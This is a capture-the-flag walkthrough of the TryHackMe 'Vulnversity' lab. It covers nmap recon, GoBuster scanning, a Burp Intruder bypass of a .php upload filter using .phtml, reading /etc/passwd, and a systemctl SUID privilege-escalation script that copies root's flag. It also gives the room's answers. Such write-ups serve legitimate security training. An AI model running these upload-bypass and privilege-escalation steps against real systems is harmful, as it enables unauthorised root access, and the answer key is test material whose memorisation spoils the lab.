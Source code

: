 # [Vulnversity][5]
Learn about active recon, web app attacks and privilege escalation.

#### [TASK 2] Reconnaissance

Nmap Cheatsheet -> https://www.stationx.net/nmap-cheat-sheet/

Run the command `nmap -A <IP>` > [CHECK THE SCAN RESULT][1]

Scan the box, how many ports are open? **6**

What version of the squid proxy is running on the machine? **3.5.12**

How many ports will nmap scan if the flag *-p-400* was used? **400** <br>
> *-400* means start scanning from port 1 and scan till 400. To know more check [Nmap - Port Specification][2].

Using the nmap flag *-n* what will it not resolve? **DNS**

What is the most likely operating system this machine is running? **Ubuntu**


What port is the web server running on? **3333**

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

> - It is always good idea to check for vulnerability. To do that run `nmap --script=vuln <IP>`
- Try **SSH** as port 22 is open and running OpenSSH. To do that run `ssh <IP>`
- Check the **website** as there is HTTP port. To do that, go to `<IP>:3333`.   



#### [TASK 3] Locating directories using GoBuster

Let's start with a GoBuster Directory scan. Command and the location of wordlist is given. There are a lot of wordlist to choose from but for the sake of this room *small.txt* from *dirb* directory will enough.

![GoBuster Results](images/gobuster.jpg)

What is the directory that has an upload form page? **/internal/**

> Try to access all the directory and BAAM! */internal* has a upload page. If none of this would have worked, try other wordlist like *common.txt*. Also, **recursive** option can be used. DirBuster GUI version can be used too.

#### [TASK 4] Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked? **.php**

1. Intercept the request as show and send it to **Intruder**.
2. **Clear** variables and select ***.\<file_formart>*** and click on **Add**.
3. Under **Payloads** option, Load the *phpext.txt*. Make sure to uncheck **Payload Encoding**.
4. Click on **Start Attack**. Check the **Length** variable, one has a different length.

![Intruder Result](images/burpsuite.jpg)

Run this attack, what extension is allowed? **.phtml**

Follow the remote access steps. After uploading the file.

What is the name of the user who manages the webserver? **bill**
> To get the name, check /etc/psswd file. To do that, type `cat /etc/passwd` and you will see the name bill as a user.

What is the user flag?
> As we know *bill* is the user. Direct to /home/bill. Type, `cd /home/bill`. There is a file called **user.txt**. Check the content of the file using `cat user.txt`.

#### [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]


[1]: https://gist.github.com/abhi-agrawl/87aa4e87f999c7ff3fc99e7a8d0e665e
[2]: https://www.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/
[5]: https://tryhackme.com/room/vulnversity
